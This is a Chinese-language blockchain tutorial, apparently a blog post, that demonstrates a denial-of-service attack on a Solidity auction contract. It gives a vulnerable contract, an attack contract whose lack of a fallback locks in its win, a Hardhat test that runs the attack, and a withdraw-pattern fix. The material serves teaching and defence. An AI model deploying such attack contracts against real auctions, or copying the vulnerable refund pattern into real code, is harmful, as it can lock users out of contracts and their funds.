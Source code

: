 ```yaml
---
title: Web3系列教程之高级篇---7：如何阻止用户访问智能合约
description: null
author: 李留白
weight: 0
date: 2022-08-07T02:08:14.535Z
lastmod: 2022-08-07T02:08:42.695Z
tags: []
categories:
  - 区块链
  - WEB3.0
featuredImage: https://hicoldcat.oss-cn-hangzhou.aliyuncs.com/img/R3RYera.png
---
```


![](https://hicoldcat.oss-cn-hangzhou.aliyuncs.com/img/20220807095615.png)

拒绝服务（DOS）攻击是一种旨在使网络、网站或服务失灵、关闭或中断的攻击。本质上，它意味着攻击者以某种方式阻止普通用户访问网络、网站或服务，从而拒绝他们的服务。这是一个非常常见的攻击，我们在web2中也都知道，但今天我们将尝试模仿对智能合约的拒绝服务攻击

加油🚀

## 智能合约中的 DOS 攻击

### 会发生什么？

将有两个智能合约 - `Good.sol`和`Attack.sol`。`Good.sol`将被用来运行一个样本拍卖，它将有一个功能，当前用户可以通过向`Good.sol`发送比前一个赢家发送的ETH更高的金额来成为当前拍卖的赢家。赢家被替换后，旧的赢家将被送回他最初发送给合约的钱。

`Attack.sol`的攻击方式是，在成为当前拍卖的赢家后，即使试图获胜的地址愿意投入更多的ETH，它也不允许其他任何人取代它。因此，`Attack.sol`将使`Game.sol`受到DOS攻击，因为在它成为赢家后，它将拒绝任何其他地址成为赢家的能力。

### 建造

让我们构建一个示例，您可以在其中体验攻击是如何发生的。

- 要设置一个Hardhat项目，请打开终端，在一个新的文件夹中执行这些命令

```bash
npm init --yes
npm install --save-dev hardhat
```

- 如果你不是在mac上，请做这个额外的步骤，也安装这些库 :)

```
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

- 在你安装Hardhat的同一目录下运行。

```bash
npx hardhat
```

- 选择`Create a basic sample project`
- 对已指定的`Hardhat Project root`按回车键
- 如果你想添加一个`.gitignore`，请按回车键。
- 按回车键`Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

现在你有一个准备好的hardhat项目了!

让我们创建拍卖合同，命名为`Good.sol`，代码如下。

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        (bool sent, ) = currentWinner.call{value: currentAuctionPrice}("");
        if (sent) {
            currentAuctionPrice = msg.value;
            currentWinner = msg.sender;
        }
    }
}
```

这是一个相当基本的合同，它存储了最后一个最高出价人的地址，以及他们出价的价值。任何人都可以调用`setCurrentAuctionPrice`并发送比`currentAuctionPrice`更多的ETH，这将首先尝试将他们的ETH送回给最后的出价人，然后将交易调用者设置为新的最高出价人，并提供他们的ETH值。

现在，在`contracts`目录下创建一个名为`Attack.sol`的合同，并编写以下几行代码

```
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public payable {
        good.setCurrentAuctionPrice{value: msg.value}();
    }
}
```

这个合约有一个叫做`attack()`的函数，它只是调用`Good`合约的`setCurrentAuctionPrice`。但是，请注意，这个合约没有一个可以接收ETH的`fallback()`函数。稍后会有更多这方面的内容。

让我们创建一个攻击，使 `Good`合约变得无法使用。在`test`文件夹下创建一个名为`attack.js`的新文件，并在其中添加以下几行代码

```
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("After being declared the winner, Attack.sol should not allow anyone else to become the winner", async function () {
    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    // Now lets attack the good contract
    // Get two addresses
    const [_, addr1, addr2] = await ethers.getSigners();

    // Initially let addr1 become the current winner of the aution
    let tx = await _goodContract.connect(addr1).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("1"),
    });
    await tx.wait();

    // Start the attack and make Attack.sol the current winner of the auction
    tx = await _attackContract.attack({
      value: ethers.utils.parseEther("3.0"),
    });
    await tx.wait();

    // Now lets trying making addr2 the current winner of the auction
    tx = await _goodContract.connect(addr2).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("4"),
    });
    await tx.wait();

    // Now lets check if the current winner is still attack contract
    expect(await _goodContract.currentWinner()).to.equal(
      _attackContract.address
    );
  });
});
```

请注意`Attack.sol`是如何将`Good.sol`引入DOS攻击的。首先`addr1`通过调用`Good.sol`的`setCurrentAuctionPrice`成为当前赢家，然后`Attack.sol`通过攻击函数发送比`addr1`更多的ETH成为当前赢家。现在，当`addr2`试图成为新的赢家时，它将无法做到，因为`Good.sol`合约中的检查`（if (sent)）`验证了只有当ETH被送回给上一个当前赢家时，当前赢家才会被改变。

由于`Attack.sol`没有接受ETH付款所需的`fallback`函数，`sent`总是`false`，因此当前赢家永远不会被更新，`addr2`也永远不会成为当前赢家。

要运行测试，在你的终端上指向本级别的根目录，执行以下命令

```
npx hardhat test
```

当测试通过后，你会发现`Good.sol`现在受到了DOS攻击，因为在`Attack.sol`成为当前的赢家后，在其他地址可以成为当前赢家。

## 预防

- 你可以为以前的赢家创建一个单独的`withdraw`功能。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;
    mapping(address => uint) public balances;
    
    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        balances[currentWinner] += currentAuctionPrice;
        currentAuctionPrice = msg.value;
        currentWinner = msg.sender;
    }
    
    function withdraw() public {
        require(msg.sender != currentWinner, "Current winner cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

希望你喜欢这篇文章❤️，继续吧。

## 参考

- [Solidity by example](https://solidity-by-example.org/)

![](https://hicoldcat.oss-cn-hangzhou.aliyuncs.com/img/my.png)